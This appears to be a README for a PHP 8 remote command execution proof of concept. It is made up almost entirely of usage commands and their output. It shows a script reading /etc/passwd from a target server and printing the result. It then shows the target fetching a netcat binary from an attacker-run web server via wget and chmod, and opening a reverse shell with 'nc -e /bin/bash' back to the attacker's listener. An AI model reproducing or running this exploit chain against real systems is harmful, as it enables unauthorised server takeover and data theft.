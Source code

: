 # php 8 poc
Remote Command Execution
## Usage
```bash
$ python2 cmd.py
Usage: cmd.py http://example.com whoami

python2 cmd.py http://192.168.0.22 'cat /etc/passwd'
system("cat /etc/passwd") was sent successfully, response:
root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologin[snip]opscode-pgsql:x:996:996::/var/opt/opscode/postgresql:/bin/shstring(60) "opscode-pgsql:x:996:996::/var/opt/opscode/postgresql:/bin/sh
```
## Reverse Shell 
In order to get a reverse shell you will need a netcat binary that allows the -e option. 
Copy /usr/bin/nc to the current directory and start up a web server: 
```bash
$ cp -r /usr/bin/nc .
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

python2 cmd.py http://192.168.0.22 'wget http://192.168.0.2/nc -O /tmp/nc; chmod +x /tmp/nc; ls /tmp/nc'
system("wget http://192.168.0.2/nc -O /tmp/nc; chmod +x /tmp/nc; ls /tmp/nc") was sent successfully, response:
/tmp/nc
string(7) "/tmp/nc
```
# The Web Server: 
```bash
192.168.0.22 - - [21/May/2021 07:42:07] "GET /nc HTTP/1.1" 200
```
# Execution 
```bash
python2 cmd.py http://192.168.0.22 '/tmp/nc -e /bin/bash 192.168.0.2 1000'

nc -lvp 1000
listening on [any] 1000 ...
connect to [192.168.0.2] from localhost [192.168.0.22] 
whoami
www-data```
